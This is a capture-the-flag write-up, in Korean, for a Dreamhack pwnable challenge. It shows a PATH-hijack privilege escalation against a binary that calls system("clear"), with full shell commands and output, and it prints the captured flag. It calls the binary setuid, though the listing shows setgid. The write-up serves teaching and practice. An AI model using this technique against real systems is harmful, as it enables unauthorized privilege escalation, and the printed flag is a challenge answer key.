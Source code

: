 ```yaml
---
title: "[Dreamhack CTF Season 2 #11] Welcome writeup"
date: 2023-01-29 21:56:00 +0900
categories: [CTF, PWNABLE]
tags: [ctf]
description: exploit setuid binary
---
```


## source code
chal 바이너리의 내용은 아래와 같다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __asm { endbr64 }
  sub_1080(1001LL, 1001LL, 1001LL);
  sub_1090("clear");
  sub_1070("Tada~!");
  return 0;
}
```

바이너리를 실행하면 clear를 실행하고 Tada~ 문자열을 출력한 뒤 종료한다. 이제 remote에 접속해보자

```plaintext
pwn@localhost:~$ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
pwn@localhost:~$ ls -al
total 48
drwxr-x--- 1 pwn  pwn    4096 Dec  7 09:06 .
drwxr-xr-x 1 root root   4096 Dec  5 04:32 ..
-rw-r--r-- 1 pwn  pwn     220 Dec  5 04:32 .bash_logout
-rw-r--r-- 1 pwn  pwn    3771 Dec  5 04:32 .bashrc
drwx------ 2 pwn  pwn    4096 Dec  7 09:06 .cache
-rw-r--r-- 1 pwn  pwn     807 Dec  5 04:32 .profile
-rwxr-sr-x 1 root pwned 16048 Dec  5 04:32 chal
-rw-r-S--- 1 root pwned    69 Dec  5 04:32 flag
pwn@localhost:~$
```

flag에 read가 막혀있으나, `chal` 에 setuid가 걸려있다. 이를 통해 chal이 하는 행위를 조작해야 하는 것을 알 수 있다.

앞서 바이너리를 본대로 chal은 `system("clear")` 와 같이 실행하므로 bash의 환경변수($PATH)의 영향을 받는다.

그러므로 임의 경로에 bash를 실행해주는 명령을 clear라는 이름으로 저장하고, 해당 경로를 환경변수에 추가해주면 플래그를 읽을 수 있다.

## vulnability

```plaintext
pwn@localhost:~$ ./flag
-bash: ./flag: Permission denied
pwn@localhost:~$
```

```plaintext
pwn@localhost:~$ cd /tmp/
pwn@localhost:/tmp$ echo "/bin/bash" > clear
pwn@localhost:/tmp$ chmod 777 clear
pwn@localhost:/tmp$ cat clear
/bin/bash
pwn@localhost:/tmp$
```

```plaintext
pwn@localhost:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
pwn@localhost:/tmp$ export PATH=/tmp:$PATH
pwn@localhost:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
pwn@localhost:/tmp$
```

```plaintext
pwn@localhost:/tmp$ cd ~
pwn@localhost:~$ ./chal
pwn@localhost:~$ id
uid=1000(pwn) gid=1001(pwned) groups=1001(pwned),1000(pwn)
pwn@localhost:~$ cat flag
DH{e47d874ddc629f916d3d5ef6f0d0de90c7b151f9d7010325d051c811382b489f}
pwn@localhost:~$
```